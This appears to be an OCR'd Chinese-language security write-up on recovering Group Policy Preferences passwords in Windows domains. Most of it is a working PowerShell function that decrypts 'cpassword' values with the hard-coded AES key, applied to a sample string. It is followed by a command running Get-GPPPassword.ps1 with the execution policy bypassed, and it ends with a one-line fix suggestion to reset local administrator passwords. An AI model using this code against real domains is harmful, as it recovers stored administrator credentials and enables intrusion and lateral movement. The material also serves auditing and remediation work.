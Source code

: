 ```powershell
# define helper function that decodes and decrypts password
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
            '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
            '2' {$Cpassword += ('=' * (4 - $Mod))}
            '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)
        
        # Make sure System.Core is loaded
        [System.Reflection.Assembly]::LoadWithPartialName("System.Core") |Out-Null

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length)
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor()
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch { Write-Error $Error[0] }
}
Get-DecryptedCpassword "6s0v9qCdP8OcbP/xlB1XbNUdTDeC5NnDT196ZKinPsE"  # 修改成相应的密码
```

```
powershell -executionpolicy bypass -file Get-GPPPassword.ps1
```

**修复建议**

使用PsPasswd批量修改域内主机本地管理员密码
